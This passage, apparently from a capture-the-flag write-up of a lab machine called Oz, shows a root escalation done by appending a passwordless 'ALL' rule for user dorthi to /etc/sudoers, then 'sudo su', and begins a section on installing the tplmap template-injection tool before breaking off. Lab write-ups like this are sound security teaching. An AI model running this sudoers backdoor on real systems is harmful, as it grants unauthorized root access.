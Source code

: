 
### sudoers

Editing the `/etc/sudoers` file is even easier:

    
    
    /rootfs/etc # chmod 600 sudoers
    /rootfs/etc # echo "dorthi ALL=(ALL) NOPASSWD: ALL" >> sudoers
    

Then in dorthi shell:

    
    
    dorthi@Oz:~$ sudo -l
    Matching Defaults entries for dorthi on Oz:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User dorthi may run the following commands on Oz:
        (ALL) NOPASSWD: ALL
        (ALL) NOPASSWD: /usr/bin/docker network inspect *
        (ALL) NOPASSWD: /usr/bin/docker network ls
    dorthi@Oz:~$ sudo su
    root@Oz:/home/dorthi# id
    uid=0(root) gid=0(root) groups=0(root)
    

## Beyond Root

### tplmap

In doing this write-up, I came across
[tplmap](https://github.com/epinna/tplmap), which I had not noticed months ago
when I first solved Oz. I think it’s worth walking through manually, so I left
the main write-up showing those steps, but I also wanted to play with a new
tool, and it works pretty well.

#### Install

Really easy, just clone the repo:

    
    
    root@kali:/opt# git clone https://github.com/epinna/tplmap.git
    Cloning into 'tplmap'...
    remote: Enumerating objects: 88, done.
    remote: Counting objects: 100% (88/88), done.
    remote: Compressing objects: 100% (47/47), done.
    remote: Total 4059 (delta 39), reused 68 (delta 34), pack-reused 3971
    Receiving objects: 100% (4059/4059), 639.25 KiB | 13.05 MiB/s, done.
    Resolving deltas: 100% (2664/2664), done.
    

Now run it:

    
    
